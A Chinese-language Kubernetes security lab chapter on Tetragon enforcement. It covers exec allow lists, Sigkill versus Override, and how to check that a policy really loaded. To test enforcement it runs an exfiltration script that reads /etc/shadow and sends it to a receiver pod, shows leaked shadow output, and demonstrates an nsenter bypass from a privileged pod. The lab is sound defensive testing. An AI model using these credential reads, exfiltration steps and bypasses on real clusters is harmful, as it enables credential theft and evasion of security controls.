



# Day 6: 從偵測到攔截——Sigkill、Override 與擋得住的邊界

{ align=right width="95" }

Day 5 的 TracingPolicy 只做一件事：把符合條件的檔案讀取記下來。現在換一個需求——「這個命名空間只准跑清單上的那幾支程式，其他一律擋下」——你要做的是把 `matchActions` 從「記錄」改成會動手的動作，讓違規的行程被殺掉。

殺掉一個行程很容易。難的是兩件會跟直覺不一樣的事：**殺掉行程，等不等於擋住它正在做的事**（機密可能在行程死掉之前就已經送出去了）；還有**寫錯一條攔截規則，從應用程式那一側看起來是什麼樣子**（很可能什麼異常都看不到）。

讀完這一章，一條攔截策略上線之後，你能判斷它是不是真的生效、它擋住的是操作本身還是只是事後把行程殺掉、哪些情況它根本攔不到，以及誤殺發生時該去哪裡才看得見。

## 為什麼第一步不是寫攔截策略

先看一個 Day 5 已經出現、但在偵測情境下無所謂的現象：一條策略 `kubectl apply` 回報成功、物件查得到、`status` 是空的、`describe` 的事件也是空的——四個 Kubernetes 端的訊號全綠——可是它根本沒有載入核心（[Day 5「`kubectl apply` 成功，策略卻沒有載入」](sprint2-day5-tetragon-basics.md#mine-4)）。

在偵測情境，這只是少看了幾筆事件。在攔截情境，這代表**你以為已經擋住，其實什麼都沒擋**。所以今天的順序跟前幾天相反：第一步先把「這條策略到底載入了沒有」變成一個能重複執行的指令，而且要用一條**故意壞掉**的策略證明這個檢查真的會判它失敗。只對一條好策略跑一次檢查，無法證明這個檢查在策略壞掉時會報錯。

## 步驟 1: 先把「策略載入了沒有」變成一個指令

唯一可信的來源是每一顆節點上的 agent 自己。檢查腳本對每顆 agent 問一次 `tetra tracingpolicy list`，只看它回報的 `state` 與 `mode`，其中任何一顆不是 `TP_STATE_ENABLED` 就以非零結束：

```bash
cat > policy-state.sh <<'EOF'
#!/usr/bin/env bash
# The only trustworthy check: ask every agent for the policy's state and mode.
# Kubernetes-side signals (apply succeeded, object exists, no status, no events)
# are all green even when the policy failed to load.
# Exit 1 if any agent reports anything other than TP_STATE_ENABLED.
set -uo pipefail
WANT="${1:-}"
rc=0
for pod in $(kubectl -n tetragon get pods -l app.kubernetes.io/name=tetragon -o name); do
  node=$(kubectl -n tetragon get "${pod#pod/}" -o jsonpath='{.spec.nodeName}' 2>/dev/null)
  json=$(kubectl -n tetragon exec "${pod#pod/}" -c tetragon -- \
           tetra tracingpolicy list -o json 2>/dev/null) || continue
  echo "$json" | python3 -c '
import json,sys
want=sys.argv[1]; node=sys.argv[2]; bad=0
for p in (json.load(sys.stdin) or {}).get("policies") or []:
    if want and p.get("name")!=want: continue
    st=p.get("state","?"); print(f"{node}  {p.get(\"name\")}  state={st}  mode={p.get(\"mode\",\"-\")}")
    if st!="TP_STATE_ENABLED": bad=1
sys.exit(bad)' "$WANT" "$node" || rc=1
done
exit $rc
EOF
chmod +x policy-state.sh
```

### 策略正常載入時

先套用一條待會兒要用的純觀察策略，跑檢查：

```console
$ kubectl apply -f tracingpolicy-exec-observe.yaml
$ ./policy-state.sh
<node-a>  lab-exec-observe  state=TP_STATE_ENABLED  mode=TP_MODE_MONITOR_ONLY
<node-b>  lab-exec-observe  state=TP_STATE_ENABLED  mode=TP_MODE_MONITOR_ONLY
<node-c>  lab-exec-observe  state=TP_STATE_ENABLED  mode=TP_MODE_MONITOR_ONLY
```

這裡要同時盯兩個欄位。`state` 說策略在不在核心裡；**`mode` 今天跟 `state` 一樣重要**：一條本該攔截的策略若回報 `TP_MODE_MONITOR_ONLY`，它就只是一條偵測策略，而 Kubernetes 那一側看不出任何差別。

### 策略載入失敗時

拿一個很常見的錯來當反例：掛勾名稱少打一個字母。

```yaml
- call: "security_file_permision"        # 少一個 s
```

```console
$ kubectl apply -f tracingpolicy-badload.yaml
tracingpolicynamespaced.cilium.io/lab-badload created     ← 成功
$ kubectl -n ebpf-lab get tracingpoliciesnamespaced
lab-badload   0s                                          ← 存在
$ … -o json | jq .status
<absent>                                                  ← 沒有 status
$ kubectl describe … | tail -1
Events:  <none>                                           ← 沒有 event

$ ./policy-state.sh lab-badload ; echo rc=$?
<node-a>  lab-badload  state=TP_STATE_LOAD_ERROR  mode=-
<node-b>  lab-badload  state=TP_STATE_LOAD_ERROR  mode=-
<node-c>  lab-badload  state=TP_STATE_LOAD_ERROR  mode=-
rc=1
```

**四個 Kubernetes 端的訊號全綠，三顆節點的 agent 全紅。** `call` 這個欄位為什麼不可能靠 `kubectl apply` 擋下來，見[疑難排解：掛勾名稱打錯字只有 agent 知道](#mine-2)；另一個欄位打錯字卻會被當場退件，見[哪一種打錯字會被擋，是逐欄位決定的](#mine-3)。

## 步驟 2: 命名空間內的 exec 允許清單

目標是一條策略：`ebpf-lab` 裡只准執行清單上的程式，其他的 exec 一律 `Sigkill`(`matchActions` 的攔截動作之一，送出 SIGKILL 結束行程）。

### 允許清單要從量測抄，不是從腳本抄

寫清單之前有一個陷阱：策略比對的是**核心替執行檔解析完的路徑**，跟你在命令列打的路徑不一定相同——符號連結跟到底、映像檔裡的 `/bin` 併進 `/usr/bin`。所以第一步是用一條**零動作**、掛在同一個點上的觀察策略先跑一段時間，把真正會到達策略的字串量出來：

```bash
cat > tracingpolicy-exec-observe.yaml <<'EOF'
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
  name: lab-exec-observe
  namespace: ebpf-lab
spec:
  kprobes:
    - call: "security_bprm_check"      # after the kernel resolved the target binary,
      syscall: false                   # before the new image starts running
      args:
        - index: 0
          type: "linux_binprm"
EOF
kubectl apply -f tracingpolicy-exec-observe.yaml
```

```console
$ ./tetra-events.sh --since 60s | …
30 ('lab-worker', '/usr/bin/date')
30 ('lab-worker', '/usr/bin/head')
30 ('lab-worker', '/usr/bin/sleep')
```

到達策略的字串全都在 `/usr/bin/` 底下（例如 `/usr/bin/date`）。**如果憑印象寫成 `/bin/date` 之類的路徑，策略一生效，工作負載在第一個 tick 就可能被殺掉**（本課沒有實際用錯誤清單跑過），詳見[疑難排解：允許清單必須從量測抄](#mine-4)。

這條觀察策略掛的點是 `security_bprm_check`，不是 `sys_execve`，這個選擇決定了攔截擋不擋得住。`sys_execve` 入口的當下，行程還是父行程，參數還是沒解析的使用者空間指標。`security_bprm_check` 跑在核心開好、解析好目標檔案之後、新映像開始執行之前——是 exec 路徑上唯一一個「要跑哪支程式」既已確定、又還來得及攔的位置。

### 攔截策略

把動作換成 `Sigkill`，允許值換成剛才量到的字串：

```bash
cat > tracingpolicy-exec-allowlist.yaml <<'EOF'
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
  name: lab-exec-allowlist
  namespace: ebpf-lab
spec:
  kprobes:
    - call: "security_bprm_check"
      syscall: false
      args:
        - index: 0
          type: "linux_binprm"
      selectors:
        - matchArgs:
            - index: 0
              operator: "NotEqual"     # NotIn is not a valid operator here — see mine 3
              values:
                - "/usr/bin/date"
                - "/usr/bin/head"
                - "/usr/bin/sleep"
                - "/usr/bin/bash"
                - "/bin/bash"
                - "/usr/bin/id"
                - "/usr/bin/cat"
                - "/usr/bin/python3"
                # Every kubectl exec re-execs runc inside the pod's own cgroup,
                # so a namespaced allow list matches it too. Omit this and every
                # exec into the namespace dies — including allowed binaries.
                - "/runc"
          matchActions:
            - action: Sigkill
EOF
kubectl apply -f tracingpolicy-exec-allowlist.yaml
```

清單裡要有 `/runc`，原因見[疑難排解：允許清單會殺掉 runc](#mine-5)：每一次 `kubectl exec` 進這個命名空間，runc 都會在 pod 自己的 cgroup 裡重新執行一次，命名空間範圍的策略會比對到它。

確認三顆節點都進入攔截模式：

```console
$ ./policy-state.sh lab-exec-allowlist
<node-a>  lab-exec-allowlist  state=TP_STATE_ENABLED  mode=TP_MODE_ENFORCE
（三顆節點相同）
```

### 違規的行程確實被殺

```console
$ kubectl -n ebpf-lab exec lab-violator -- /bin/bash -c '/usr/bin/id -u; echo "shell saw rc=$?"'
shell saw rc=137
/bin/bash: line 1:    64 Killed                  /usr/bin/id -u
```

`137 = 128 + 9`，而那行 `Killed` 是**呼叫端的 shell 自己印的**，不是從 Tetragon 的事件推論出來的。不經過 shell、直接發動時，呼叫端看到的是：

```console
$ kubectl -n ebpf-lab exec lab-violator -- /usr/bin/id -u
command terminated with exit code 137
```

Tetragon 這一側對應一筆攔截事件：

```text
04:22:59.406  ns=ebpf-lab pod=lab-violator  binprm=/usr/bin/id  cur=/bin/bash
              policy=lab-exec-allowlist  act=KPROBE_ACTION_SIGKILL
```

### 正常的工作負載照常運作

驗這一半有個陷阱：一顆只會 sleep 的 pod，在「把其他東西都殺光」的策略下看起來跟正常運作一模一樣。所以這顆工作負載每兩秒實際執行兩支程式，再把取得的資料印進編號心跳：

```console
tick=392 t=04:22:57.750 work=[PRETTY_NAME="Ubuntu 24.0]
tick=393 t=04:22:59.754 work=[PRETTY_NAME="Ubuntu 24.0]   ← 違規行程在這一秒被殺
tick=394 t=04:23:01.759 work=[PRETTY_NAME="Ubuntu 24.0]
tick=395 t=04:23:03.764 work=[PRETTY_NAME="Ubuntu 24.0]
tick=396 t=04:23:05.769 work=[PRETTY_NAME="Ubuntu 24.0]
tick=397 t=04:23:07.773 work=[PRETTY_NAME="Ubuntu 24.0]

$ kubectl -n ebpf-lab get pods
lab-worker  1/1  Running  0  13m       ← 沒有重啟
```

編號連續、間隔穩定、資料欄位有內容、`RESTARTS 0`——兩半都有證據。同一個窗口 Falco 也報了告警，時間戳與 Tetragon 的攔截事件相同：同一個核心瞬間，一邊產出一筆有名字、有嚴重度的告警，一邊讓違規行程直接結束。

## 步驟 3: Sigkill 是擋住了，還是只是事後把人殺掉 {#step-3}

這一題決定攔截的價值，而官方文件的立場要先擺在前面：Tetragon 的強制執行文件明白說，送出 `SIGKILL` **不保證**能阻止觸發它的那個操作，並建議把 `Signal` 與 `Override` 併用。文件舉的例子是 `write()`——訊號送出去了，資料還是可能已經寫進檔案。

所以這一節量的不是「SIGKILL 一般擋不擋得住」，而是**掛在 `security_file_permission` 這個檢查點上時，擋不擋得住**。

先看這兩個動作在一次 read 的生命週期裡分別跑在哪裡，這張圖決定了整節的結論：



照著圖看：`security_file_permission` 是 LSM 的權限檢查，位置在**實際讀取之前**。`Sigkill` 在這裡送出訊號，核心在返回使用者空間之前就結束行程；`Override` 在這裡直接把回傳值改成錯誤，這次讀取根本不發生。兩個動作都發生在讀取之前。

### 怎麼量

三顆 pod：讀取者、接收者（另一顆節點上的 TCP server）、正常工作負載。**判決不採信被殺行程自己的輸出**（被殺的行程什麼都印不出來），只採信接收端的日誌：到得了接收端的位元組，就是真的離開了那個行程，之後它怎麼死都不影響這個事實。洩漏程式把順序壓到最緊——先連線、再讀機密、下一行就送出。

### 基準線：沒有策略

```console
$ python3 /tmp/exfil.py <receiver> 9000 BASELINE
SURVIVED-LEAKED read=0.040ms send=0.039ms bytes=474

接收端: RECEIVED bytes=491 first=b'BASELINE len=474 root:*:20409:0:99999:7:::\ndaemo'
```

`/etc/shadow` 的內容確實會出現在另一顆 pod 的日誌裡。讀取與送出各只花幾十微秒——攔截要贏，就得贏在這段時間裡。

### 掛上 Sigkill

```bash
cat > tracingpolicy-shadow-sigkill.yaml <<'EOF'
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
  name: lab-shadow-sigkill
  namespace: ebpf-lab
spec:
  kprobes:
    - call: "security_file_permission"   # LSM permission check — runs BEFORE the read
      syscall: false
      args:
        - index: 0
          type: "file"
        - index: 1
          type: "int"
      selectors:
        - matchArgs:
            - index: 0
              operator: "Equal"
              values: ["/etc/shadow"]
            - index: 1
              operator: "Equal"
              values: ["4"]
          matchActions:
            - action: Sigkill
EOF
```

| 測試 | 呼叫端看到 | 接收端拿到 |
|---|---|---|
| 讀後送，兩個 syscall（四輪） | `Killed` / rc=137 | **0 位元組** |
| `cat /etc/shadow > /tmp/stolen`（兩個行程） | `Killed` / rc=137 | 檔案建了，**內容 0 位元組** |
| **`os.sendfile`，讀與送在同一個 syscall 裡** | `Killed` / rc=137 | **只有 26 位元組的標記字串，機密 0 位元組** |

最後一列是關鍵。`os.sendfile` 把讀與送壓進同一次 syscall，整段複製都在核心裡完成，中間沒有回到使用者空間的機會。如果 SIGKILL 只是「在下一個 syscall 邊界結束行程」，核心已經排進 socket 的資料就會跑掉。實測沒有：接收端只拿到程式在讀檔**之前**自己送的 26 位元組標記。

**所以在這個掛勾上，答案是擋住了，理由是掛勾點在操作之前，不是 SIGKILL 特別強。** 這跟官方那句警告並不衝突，合起來才是完整的規則：決定擋不擋得住的是掛勾點的位置，不是動作是訊號還是回傳值。把同一個 `Sigkill` 掛在操作完成之後才觸發的事件上，結論會相反——官方建議「`Signal` 配 `Override`」，正是因為不能假設每個掛勾都在操作之前。**實務上要確保一個操作不會完成，照官方建議把 `Signal` 與 `Override` 併用，並把掛勾放在操作之前的檢查點。** 本課只測了 `security_file_permission` 這一個掛勾，也沒有測兩個動作併用；換掛勾時要自己重做一次外流測試。

### 換成 Override

刻意跟上面那條只差一行：同一個掛勾、同樣兩個條件、同一支程式、同一行指令，只把動作從 `Sigkill` 換成 `Override` 加 `argError: -1`（也就是回傳 `EPERM`）。這樣比較，差別就只會落在動作本身。

```console
$ python3 /tmp/exfil.py <receiver> 9000 OVERRIDE-2
SURVIVED-DENIED errno=1 [Errno 1] Operation not permitted        ← 行程活著,自己印的

接收端: RECEIVED bytes=59 first=b'OVERRIDE-2 DENIED errno=1 [Errno 1] Operation no'

$ /usr/bin/cat /etc/shadow ; echo cat-rc=$?
cat: /etc/shadow: Operation not permitted
cat-rc=1
```

機密同樣沒有外流（都是 0），差別在另外三個地方：

| | `Sigkill` | `Override` |
|---|---|---|
| 應用得到的資訊 | 沒有。行程消失，`137` 是外面的人看到的 | **`EPERM`**，應用自己的錯誤處理路徑收得到 |
| 波及範圍 | **整個行程**，見[疑難排解：Sigkill 會帶走無關的連線](#mine-6) | 只有那一次操作 |
| 核心記憶體 | 約 347 kB | 約 2.97 MB，見[疑難排解：Override 的核心記憶體是 8.5 倍](#mine-7) |

還有一件對防守方不太有利的事：

```console
$ for i in 1 2 3 4 5; do /usr/bin/cat /etc/shadow >/dev/null 2>&1; echo "attempt $i rc=$?"; done
attempt 1 rc=137 … attempt 5 rc=137        （五次全部 Killed）
parent shell alive, pid=190
$ /usr/bin/cat /etc/passwd | head -2       ← 換一個路徑
root:x:0:0:root:/root:/bin/bash
passwd rc=0
```

**攔截成功五次，只結束了五個行程。** 發動讀取的父 shell 還在，換一個檔案路徑就能繼續。那五次讀取確實一個位元組都沒拿到，但攔截交付的是「這一個動作沒有發生」，不是「這個攻擊者被處理掉了」。後者要靠偵測那一側：那五次重試在 Falco 是五筆有名字的告警，會進值班頻道、會有人去看。

## 步驟 4: nsenter 能不能繞過攔截 {#step-4}

[Day 5「`nsenter` 進去讀的檔，事件記在發起的 pod 上」](sprint2-day5-tetragon-basics.md#mine-6)證明 Tetragon 會把 `nsenter` 的動作記在**呼叫端**。攔截把這件事從「標籤貼錯」升級成「守備範圍錯」：`TracingPolicyNamespaced` 選的是一組 cgroup，而攻擊者的身分就是他自己那組 cgroup。

這張圖先把範圍畫出來：觀察是整顆節點的，攔截只綁一個命名空間的 cgroup。兩個呼叫端做一模一樣的事，差別只在它們屬於哪個命名空間：



兩個呼叫端、一個目標、一模一樣的動作：

```console
=== C1 呼叫端在受保護的命名空間裡（特權 pod）===
lab-worker                                    ← hostname 確認進到目標了
/bin/bash: line 1: 1683 Killed   cat /etc/shadow > /tmp/ns1
cat-rc=137
0                                             ← 讀到 0 位元組

=== C2 呼叫端在另一個命名空間（同樣特權、同一顆節點）===
lab-worker
cat-rc=0
502                                           ← 讀到 502 位元組
```

**同一個檔案、同一支 `cat`、相隔一秒、一個死一個沒事。** C2 完全沒有觸發任何攔截事件。

原因在圖上：`TracingPolicyNamespaced` 選的是**呼叫端的 cgroup**，而 `nsenter` 換命名空間、不換 cgroup。一句話講完：**它保護的是那個命名空間裡的行程，不是那個命名空間裡的檔案。** C1 那一筆還展示了另一面——攔截生效了，但事件記在呼叫端名下，而檔案在被進入的那顆 pod 裡，所以攔得住不代表事後查得對。

同一個 C2 動作，兩套工具的表現：

```text
04:28:26  Read sensitive file untrusted | cat | pod=<呼叫端>  | /etc/shadow
04:28:27  Read sensitive file untrusted | cat | pod=<攻擊者>  | /etc/shadow
```

Falco **兩次都報了**，包含 Tetragon 攔不到的那一次。pod 欄位一樣認錯（跟 [Day 3 的 nsenter 歸屬](sprint2-day3-falco-basics.md#mine-5)一樣），但訊號在。

而 Tetragon 自己的底層 sensor，把整條攻擊鏈連參數都印了出來：

```text
04:28:27.222  process_exec  <攻擊者 pod>  /bin/bash -c "pid=$(pgrep -f …
04:28:27.255  process_exec  <攻擊者 pod>  /usr/bin/nsenter -t 12054 -m -u -i -n -p …
04:28:27.260  process_exec  <攻擊者 pod>  /usr/bin/cat /etc/shadow
```

**同一套軟體看見了這次存取，卻沒有擋下來。** 觀察策略是節點範圍的，攔截策略是命名空間範圍的，這個不對稱是本章最該記住的一點。要補這個洞，選項只有兩個，而且都很貴：把攔截策略做成叢集範圍（在共用叢集上風險極高，一條走偏的攔截策略會把別人的工作負載一起帶走），或者不讓任何 pod 拿到特權加 `hostPID`。後者意味著**這個洞真正的修補位置在 admission 層，不在執行期**。

## 步驟 5: 寫錯攔截規則，從應用側看是什麼樣子 {#step-5}

把允許清單拿掉一個 `/usr/bin/head`。這是一支很普通的工具，程式碼審查時很少有人注意到它，而工作負載每兩秒呼叫它一次。其他一個字都沒改。

應用側看到的：

```console
tick=585 t=04:29:24.719 work=[PRETTY_NAME="Ubuntu 24.0]     ← 最後一筆正常
tick=586 t=04:29:26.724 work=[]                              ← 策略生效
tick=587 t=04:29:28.729 work=[]
…
tick=626 t=04:30:46.921 work=[]                              ← 最後一筆錯誤
tick=627 t=04:30:48.925 work=[PRETTY_NAME="Ubuntu 24.0]     ← 修好
```

所有健康指標：

```console
$ kubectl -n ebpf-lab get pod lab-worker
lab-worker  1/1  Running  0  19m                 ← 沒重啟

$ kubectl -n ebpf-lab describe pod lab-worker | sed -n '/Events:/,$p'
Normal  Scheduled  19m  …
Normal  Pulled     19m  …
Normal  Created    19m  …
Normal  Started    19m  …                        ← 19 分鐘前的開機事件,沒有新的
```

**應用日誌裡連 `Killed` 都沒有。** shell 在指令替換 `$(...)` 裡被殺的子行程不會印那行訊息——同一顆 pod 稍早在 `kubectl exec` 底下被殺時是印的。同一個攔截，兩種呈現，而生產環境裡遇到的是不印的那一種。工作負載整整 82 秒服務「健康」、輸出全錯。

這 82 秒裡，四個地方各自看到不同的東西：



照著圖看，只有 Tetragon 同時說得出被殺的程式與動手的策略。Falco 雖然也報了 22 筆，講的故事卻是錯的：它報的是 `bash`，因為 exec 在 `security_bprm_check` 就被殺掉、`execve` 從來沒有完成，Falco 事件裡的行程名還是舊的那個。Falco 記到了這件事，但行程名稱是錯的，也看不出是哪一套軟體送出的 SIGKILL，因為送出 SIGKILL 的是另一套軟體，而那件事不是一個 syscall。

修復是立即的：刪掉太窄的策略、套回正確的，下一個 tick（兩秒內）就恢復。對照 [Day 4 改 Falco 規則](sprint2-day4-falco-custom-rules.md#mine-1)要跑一次七十幾秒的 DaemonSet 滾動更新、每顆節點還會有數十秒完全沒有監控：**攔截的變更風險比偵測高，但變更本身的機制反而乾淨得多。** 這一點對事故處理很實際——搞砸一條攔截策略之後，你可以在兩秒內把它拿掉。

## 疑難排解

### 冷啟動時 agent 會 panic，那段時間沒有任何攔截 {#mine-1}

**症狀**:`kubectl get pods` 出現一個不起眼的重啟次數。

```console
$ kubectl -n tetragon get pods
tetragon-7qgck  2/2  Running  1 (2m31s ago)  3m33s
```

**原因**:agent 啟動時要向 API server 建立 informer，而叢集冷啟動時 CNI 與 kube-proxy 還沒把那條路打通：

```text
terminated: exitCode 2, reason Error
  "failed to determine if *v1.Pod is namespaced: … i/o timeout" duration=30.011672482s
  "BPF events statistics: 0 received, 0% events loss"
  panic: failed to determine if *v1.Pod is namespaced: …
```

等三十秒就 panic 退出，退出前的日誌印出 `0 received`，表示 BPF 程式還沒掛上。這段缺口約 31 秒。DaemonSet 重啟它，第二次成功。在偵測情境這只是漏看；在攔截情境，這是一段沒有任何攔截的攻擊窗口，因為攔截策略在 agent 起來之前不存在，而節點上的工作負載跟 agent 一起排程、不會等它。這條路上沒有一個指標會抱怨：DaemonSet 是 `3/3`、pod 是 `Running`,`RESTARTS` 那個數字是唯一的線索，而它過一天就會被當成正常。

**修法**：以攔截為前提部署時，冷啟動後要確認 `RESTARTS`，以及 agent 日誌裡有沒有 `Loading sensor name=__base__`——在那之前掛任何攔截策略都是空的。

### 掛勾名稱打錯字，只有 agent 知道 {#mine-2}

**症狀**:`call` 少打一個字母（步驟 1 的反例），`kubectl apply` 成功、物件存在、`status` 不存在、`describe` 的事件是空的，而三顆節點的 agent 全部 `LOAD_ERROR`。

**原因**:`call` 的合法值是「這顆核心當下有哪些符號」，是執行期的性質，API server 沒辦法檢查。錯誤只出現在 agent 日誌裡：

```text
level=warn msg="adding tracing policy failed"
  error="… validation error: call \"security_file_permision\": not found"
```

**修法**：以 agent 回報的 `state` 判斷策略是否生效，並先對一條故意壞掉的策略跑過一次，確認檢查會報錯。

### 哪一種打錯字會被擋，是逐欄位決定的 {#mine-3}

同一份 CRD、同一個 `selectors[0]` 底下，兩個欄位打錯字的結果相反。`matchArgs.operator` **有 enum**，打錯當場退件並附上完整合法值清單：

```console
$ kubectl apply -f tracingpolicy-exec-allowlist.yaml
The TracingPolicyNamespaced "lab-exec-allowlist" is invalid:
* spec.kprobes[0].selectors[0].matchArgs[0].operator: Unsupported value: "NotIn":
  supported values: "Equal", "NotEqual", "Prefix", "NotPrefix", "Postfix", "NotPostfix",
  "GreaterThan", "LessThan", "GT", "LT", "Mask", "SPort", … "InMap", "NotInMap", …
```

而 [Day 5 的 `returnArgAction`](sprint2-day5-tetragon-basics.md#mine-4) **沒有 enum**，打錯就是靜靜地不載入。**沒有辦法從外觀分辨自己面對的是哪一種**，所以檢查不能挑著做。（`NotIn` 換成 `NotEqual` 帶一整串值，語意就是「都不等於」。）

### 允許清單必須從量測抄，不能從腳本抄 {#mine-4}

**症狀**：照工作負載的腳本寫允許清單，策略一生效工作負載就死。

**原因**：策略比對的是核心解析完的路徑——符號連結跟到底、`/bin` 併進 `/usr/bin`。manifest 裡寫的 `/usr/bin/date` 到達策略時就是這個字串；如果寫成 `/bin/date` 這類路徑，比對會落空。busybox 類的映像更極端：每個小工具都是指向同一支執行檔的符號連結，`date`、`sleep`、`sh` **全部以同一個字串到達策略**，允許清單在上面完全無法分辨。

**修法**：先用零動作、同一個掛勾的觀察策略跑一段時間，把真正到達策略的字串抄下來再寫清單。清單漏掉的通常不是危險程式，而是沒有人記得自己在用的小工具：例如在受保護的命名空間裡跑 `for i in $(seq 1 500)`，迴圈會因為 `/usr/bin/seq` 不在清單上而立刻結束。

### 允許清單會殺掉 runc，而攔截事件在匯出流裡看不見 {#mine-5}

**症狀**：策略 `enabled`、`enforce`，工作負載照跑，然後所有 `kubectl exec` 都死了，**包括執行允許清單上程式的那些**:

```console
$ kubectl -n ebpf-lab exec lab-violator -- /bin/bash -c 'echo ok'
error: Internal error occurred: … OCI runtime exec failed: exec failed:
  unable to start container process: error copying bootstrap data to pipe: write init-p: broken pipe
```

這個錯誤訊息沒有一個字提到 Tetragon、策略或攔截，而匯出的事件流那段時間一筆相關事件都沒有。直接接 gRPC 才看得到：

```console
$ kubectl -n tetragon exec <tetragon-pod> -c tetragon -- timeout 22 tetra getevents
04:21:05.744  ns=None pod=None  binprm=/runc  cur=/usr/bin/runc  act=KPROBE_ACTION_SIGKILL
```

兩件事同時成立：每一次 `kubectl exec` 進這個命名空間，runc 都會在容器自己的 cgroup 裡重新執行，命名空間範圍的策略比對得到它、也殺得掉它，而它在允許清單上不會有人想到要寫；加上這筆事件的行程當下還沒有 pod 歸屬，[chart 預設把空命名空間整個排除掉](sprint2-day5-tetragon-basics.md#mine-2)，所以攔截動作本身在匯出流裡看不見。

**修法**：把 `/runc` 加進允許清單。只要用 exec 允許清單管一個命名空間，就需要這一條，跟叢集本身無關。

### Sigkill 會帶走行程既有的、跟違規無關的連線 {#mine-6}

違規行程在讀機密**之前**就已經開好一條到另一顆 pod 的 TCP 連線。`Sigkill` 生效後，接收端記到的是一筆 **0 位元組的連線**——那條 socket 被一起結束掉。同一條策略換成 `Override`，行程活著收到 `EPERM`，用同一條 socket 把自己的錯誤回報送了出去（59 位元組）。

真實工作負載裡，那條「無關的連線」可能是進行到一半的交易、還沒寫出的緩衝區、或別的使用者的請求。選 `Sigkill` 還是 `Override`，實際上是在選要付哪一種代價：`Sigkill` 乾淨俐落但波及整個行程，`Override` 範圍精準但核心記憶體高得多。

### Override 的核心記憶體是 Sigkill 的 8.5 倍 {#mine-7}

常見的說法是「覆寫回傳值需要 `fmodret`，所以只能掛 syscall」。本課使用的 6.8 核心上實測不成立：`Override` 掛在**非 syscall** 的 `security_file_permission` 上載入成功、`mode=enforce`，而且 `cat /etc/shadow` 確實回 `Operation not permitted`。真正的條件是**被掛的函式可錯誤注入**，而這顆核心的 LSM 掛勾符合。

代價在核心記憶體：同一個掛勾，`Sigkill` 版本約 347 kB（跟純觀察策略相同，也就是 `Sigkill` 本身不額外花記憶體），`Override` 版本約 2.97 MB。**結論**：要用 `Override`，先確認目標核心的那個函式可錯誤注入，並把這份核心記憶體算進節點預算——它在 `kubectl top` 上看不到。

### agent 是 BestEffort，現在身上掛著會殺行程的策略 {#mine-8}

[Day 5 提過](sprint2-day5-tetragon-basics.md#mine-8) chart 的 agent 容器沒有設 `resources`、也沒有 `priorityClassName`，所以是 BestEffort、priority 0，節點記憶體吃緊時會最先被驅逐。

chart 預設 `enableKeepSensorsOnExit: false`：agent 被驅逐時會卸載 BPF 程式。在攔截情境下，這代表 DaemonSet 把 agent 重新排回來之前，這顆節點上沒有任何攔截。**修法**：以攔截為前提部署 Tetragon 時，替 agent 補上 `resources` 與 `priorityClassName`，降低被驅逐的機會（本課沒有實測這個修法）。

## 想一想

- 一條攔截策略 `kubectl apply` 回報成功、`kubectl get` 也列得出來，但你不確定它在不在核心裡。你會用什麼判斷它真的生效了？
- 你想攔住一支程式寫檔案的動作，確保寫不進去。照今天的結論，你會把 `Sigkill` 掛在哪一類掛勾上，為什麼不能隨便挑一個跟寫檔有關的事件？
- 一個命名空間套了 exec 允許清單，攔截測試也通過了。什麼樣的 pod 可以在完全不觸發攔截事件的情況下，讀到這個命名空間裡的檔案？

## 小結

把 Tetragon 從偵測切到攔截，最該記住的是：攔不攔得住取決於掛勾點在操作之前還是之後，不是動作用的是 `Sigkill` 還是 `Override`——掛在 `security_file_permission` 這種操作前的 LSM 檢查上，連 `sendfile` 都攔得下來。攔截交付的是「這個動作沒有發生」，不是「這個攻擊者被處理掉了」，而且它的守備範圍綁在 cgroup 上，比節點全域的觀察小，所以會出現同一套軟體看見了自己攔不到的攻擊。驗收一條攔截策略只信 agent 回報的 `state` 與 `mode`，而寫錯一條規則時，Kubernetes 和應用日誌可能全程正常，只有 Tetragon 的事件說得出被殺的是誰。

## 延伸閱讀

想再深入，可以從這幾份開始：

- **[Tetragon 的強制執行機制](https://tetragon.io/docs/concepts/enforcement/)** —— 官方對覆寫回傳值與訊號兩種做法的說明，包含那句「SIGKILL 不保證阻止操作」的警告與「Signal 配 Override」的建議，是步驟 3 必須並讀的一手來源。
